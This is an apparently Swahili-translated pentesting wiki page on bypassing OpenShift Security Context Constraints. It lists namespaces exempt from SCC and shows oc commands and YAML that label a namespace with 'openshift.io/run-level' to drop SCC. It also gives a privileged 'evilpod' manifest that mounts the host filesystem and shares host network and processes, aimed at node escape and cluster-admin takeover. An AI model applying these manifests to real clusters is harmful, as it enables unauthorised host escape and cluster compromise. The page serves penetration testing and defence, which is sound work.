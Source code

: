 # Openshift - SCC bypass

**Mwandishi wa awali wa ukurasa huu ni** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Majina ya Haki

Kwa kawaida, SCC haitumiki kwenye miradi ifuatayo:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Ikiwa utaweka pods ndani ya mojawapo ya majina haya, hakuna SCC itakayotekelezwa, ikiruhusu kuwekwa kwa pods zenye haki au kuunganisha mfumo wa faili wa mwenyeji.

## Lebo ya Namespace

Kuna njia ya kuzima matumizi ya SCC kwenye pod yako kulingana na nyaraka za RedHat. Itabidi uwe na angalau moja ya ruhusa zifuatazo:

- Kuunda Namespace na Kuunda Pod kwenye Namespace hii
- Hariri Namespace na Kuunda Pod kwenye Namespace hii
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Ile lebo maalum `openshift.io/run-level` inawawezesha watumiaji kupita SCCs kwa programu. Kulingana na nyaraka za RedHat, wakati lebo hii inatumika, hakuna SCCs zinazotekelezwa kwenye pods zote ndani ya nafasi hiyo, kwa ufanisi kuondoa vizuizi vyovyote.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Ongeza Lebo

Ili kuongeza lebo katika nafasi yako:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Ili kuunda namespace yenye lebo kupitia faili la YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Sasa, pods zote mpya zilizoundwa kwenye namespace hazipaswi kuwa na SCC yoyote

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Katika ukosefu wa SCC, hakuna vizuizi kwenye ufafanuzi wa pod yako. Hii inamaanisha kuwa pod mbaya inaweza kuundwa kwa urahisi ili kutoroka kwenye mfumo wa mwenyeji.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Sasa, imekuwa rahisi kuongeza mamlaka ili kufikia mfumo wa mwenyeji na hatimaye kuchukua udhibiti wa klasta nzima, kupata mamlaka ya 'cluster-admin'. Tafuta sehemu ya **Node-Post Exploitation** katika ukurasa ufuatao:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Lebo za Kawaida

Zaidi ya hayo, kulingana na mipangilio ya lengo, lebo / maelezo maalum yanaweza kutumika kwa njia sawa na hali ya shambulio iliyopita. Hata kama haijafanywa kwa ajili yake, lebo zinaweza kutumika kutoa ruhusa, kuzuia au sio rasilimali maalum.

Jaribu kutafuta lebo maalum ikiwa unaweza kusoma baadhi ya rasilimali. Hapa kuna orodha ya rasilimali za kuvutia:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Orodha ya majina ya nafasi zenye mamlaka
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

Katika OpenShift, kama ilivyoonyeshwa hapo awali, kuwa na ruhusa ya kupeleka pod katika namespace yenye lebo ya `openshift.io/run-level` inaweza kusababisha kuchukuliwa kwa urahisi kwa klasta. Kutoka kwa mtazamo wa mipangilio ya klasta, kazi hii **haiwezi kuzuiliwa**, kwani ni sehemu ya muundo wa OpenShift.

Hata hivyo, hatua za kupunguza kama **Open Policy Agent GateKeeper** zinaweza kuzuia watumiaji kuweka lebo hii.

Ili kupita sheria za GateKeeper na kuweka lebo hii ili kutekeleza kuchukuliwa kwa klasta, **washambuliaji wangehitaji kubaini mbinu mbadala.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
